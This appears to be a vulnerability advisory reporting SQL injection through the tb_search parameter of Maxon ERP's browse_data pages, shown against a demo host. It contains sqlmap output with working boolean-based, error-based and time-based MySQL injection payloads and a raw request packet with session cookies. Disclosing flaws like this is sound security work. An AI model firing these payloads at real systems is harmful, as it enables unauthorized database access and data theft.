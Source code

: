## Maxon ERP Software did not filter the parameters entered in the management center page purchase information purchase order, resulting in the existence of SQL injection vulnerabilities
* http://demo.maxonerp.com/index.php/purchase_order/browse_data?tb_search=123*&page=1&rows=10

We can use sqlmap to validate：
```
in the parameters：tb_search
sqlmap identified the following injection point(s) with a total of 557 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (MAKE_SET)
    Payload: http://demo.maxonerp.com:80/index.php/inventory/browse_data?tb_search=123') AND MAKE_SET(8692=8692,5675) AND ('PJtz' LIKE 'PJtz&page=1&rows=10

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: http://demo.maxonerp.com:80/index.php/inventory/browse_data?tb_search=123') AND (SELECT 2183 FROM(SELECT COUNT(*),CONCAT(0x7178767671,(SELECT (ELT(2183=2183,1))),0x716b717071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND ('uwEb' LIKE 'uwEb&page=1&rows=10

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://demo.maxonerp.com:80/index.php/inventory/browse_data?tb_search=123') AND (SELECT 8227 FROM (SELECT(SLEEP(5)))xxVr) AND ('xVYh' LIKE 'xVYh&page=1&rows=10
---
```
![](https://huc-1259038394.cos.ap-chengdu.myqcloud.com/picture/sqlmap.png)
* SQL injection of the database version information
![](https://huc-1259038394.cos.ap-chengdu.myqcloud.com/picture/dbversion.png)
* SQL injection of database path information
![](https://huc-1259038394.cos.ap-chengdu.myqcloud.com/picture/dbpath.png)
### SQL injection data packet
```
GET /index.php/inventory/browse_data?tb_search=123&page=1&rows=10 HTTP/1.1
Host: demo.maxonerp.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _ga=GA1.2.995310737.1667460803; _gid=GA1.2.778562749.1667460803; __gads=ID=44d315f8abc6a8d9-22d56d3affd700f7:T=1667460803:RT=1667460803:S=ALNI_MYh6leInNXjg72LZfWBATADsf2KVQ; __gpi=UID=00000b743408aed2:T=1667460803:RT=1667482612:S=ALNI_MbDlATt_GUCBEUQQ0koQ0nZIMJ9Lw; ci_session=f662b08c6b19441249ee774c485e480aaa2cb095
Connection: close
```
